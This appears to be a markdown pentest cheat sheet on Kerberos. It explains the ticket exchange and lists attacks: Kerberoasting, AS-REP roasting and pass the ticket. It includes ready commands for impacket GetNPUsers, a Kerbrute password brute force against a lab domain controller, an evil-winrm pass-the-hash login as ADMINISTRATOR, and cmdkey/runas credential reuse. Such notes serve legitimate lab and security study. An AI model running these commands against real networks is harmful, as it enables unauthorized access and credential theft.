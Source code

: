 # Kerberos

## Protocol

### Acronyms

  - KDC: Key Distribution Center

### Kerberos authentication

  - AS_REQ: A user requests a **Ticket Granting Ticket** to the KDC
  - AS_REP: The KDC send the TGT
  - TGS_REQ: A user requests a **Ticket Granting Service** to the KDC with a valid **TGT**
  - TGS_REP: The KDC send the TGS
  - AP_REQ: A user requests an access to a service with a valid **TGS**
  - AP_REP: Access to service

 - ref: [MISC](https://connect.ed-diamond.com/MISC/misc-110/pre-authentification-kerberos-de-la-decouverte-a-l-exploitation-offensive), [ref2](https://beta.hackndo.com/kerberos/)

## Common attacks

### KerbeRoastable


  - Crack the pass of a Service Principal Name. The TGS is encrypted with the secret of the service. If the service uses a weak password, we can find it with a bruteforce attack on the TGS.

  - [ref](https://beta.hackndo.com/kerberoasting/)

### AS-REP roasting

 - Identify users with flag DONT_REQ_PREAUTH (0x400000) on UserAccountControl [ref](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties), not so common

 - GetNPUsers.py (from impacket): This script will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH).

    GetNPUsers.py domain/user -no-pass

 - Kerbrute

    kerbrute_linux_amd64 bruteuser -d fabricorp.local --dc 10.10.10.193 /usr/share/wordlists/rockyou.txt bnielson
 
 - Pass the hash: You can connect using the hash of the user

    evil-winrm -i htb.local -u ADMINISTRATOR --hash 32693b11e6aa90eb43d32c72a07ceea6

 - Credentials can be saved

    cmdkey /list
    cmdkey /add:<DOMAIN>\<USER> /user:<USER> /pass:<PASS>
    runas /savecred /user:<DOMAIN>\<USER> cmd

 - [ref](https://beta.hackndo.com/kerberos-asrep-roasting/)

### Pass the ticket

 - Get the TGT and use it to get a TGS and authenticate